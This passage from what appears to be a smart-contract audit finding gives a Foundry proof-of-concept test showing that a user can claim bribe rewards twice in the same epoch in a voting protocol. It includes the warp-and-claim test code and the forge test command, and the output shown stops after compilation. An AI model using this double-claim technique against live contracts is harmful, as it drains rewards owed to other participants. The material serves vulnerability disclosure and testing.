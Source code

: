 ```solidity
        // ------------------- Start second epoch i+1
        //hevm.warp(newEpoch());
        hevm.warp(newEpoch() - 1 seconds); /// @audit added for PoC/testing purposes >>> `IMinter(minter).activePeriod() + IMinter(minter).DURATION() + 1 seconds;` >>> i subtracted 1 second to remove the error correction of protocol's testing phases
        uint256 blockTimestamp1 = block.timestamp; /// @audit added for PoC/testing purposes >>> this is now exactly at the start of the next epoch...
        voter.distribute();

        uint256 earnedBribes1 = IBribe(bribeAddress).earned(bal, tokenId1);
        assertEq(earnedBribes1, TOKEN_100K, "bribes from voting should be earned");

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        assertEq(earnedBribes1, IERC20(bal).balanceOf(admin), "admin should receive bribes");

        // Add BAL bribes to sushiGauge /// @audit added for PoC/testing purposes
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K); /// @audit added for PoC/testing purposes
        hevm.prank(admin); /// @audit added for PoC/testing purposes
        voter.vote(tokenId1, pools, weights, 0); /// @audit added for PoC/testing purposes

        hevm.warp(blockTimestamp1 + 2 weeks); /// @audit added for PoC/testing purposes >>> this warps to exactly 2 weeks later after the start of the CURRENT epoch, so this should now be at the end of 14 days or 2 weeks, lets see if calculations agree with this assumption:
        uint256 blockTimestamp2 = block.timestamp; /// @audit added for PoC/testing purposes

        voter.distribute();
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        uint256 totalSecsPerEpoch = 2 weeks; /// @audit added for PoC/testing purposes >>> because an epoch is exactly 2 weeks
        assertEq(totalSecsPerEpoch, block.timestamp - blockTimestamp1); /// @audit added for PoC/testing purposes >>> to check if total secs in 1 epoch is equal to current timestamp - beginning of current/previous epoch?
        assertEq(blockTimestamp1, block.timestamp - totalSecsPerEpoch); /// @audit added for PoC/testing purposes >>> to check if total secs in 1 epoch is equal to current timestamp - beginning of current/previous epoch?
        assertGt(2 weeks + 1 seconds, blockTimestamp2 - blockTimestamp1); /// @audit added for PoC/testing purposes >>> effectively demonstrating that the current timestamp is not part of the next epoch, but still part of the current epoch which started exactly 2 weeks ago...
    }
```
### TEST 1: testing WITH the bug, to demonstrate how the user claims bribe rewards twice in the same epoch:
- check the assertions that I added at the end of the test function, where I attempted to prove that the second rewards claim happens DURING the same epoch as first claim...
- make file test command used: `make test_file_debug_test FILE=Voting TEST=testBugBribeClaiming`.
- please note that I wasnt sure how to get the "transfer amount exceeds balance" error to disappear, but I didnt need to, because this error message shows that the second attempt to claim bribe rewards was NOT prevented, otherwise this error message would not be possible...:
```solidity
$ make test_file_debug_test FILE=Voting TEST=testBugBribeClaiming
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/blahblahblah --match-path src/test/Voting.t.sol --match-test testBugBribeClaiming -vvvvv
[⠊] Compiling...
No files changed, compilation skipped

```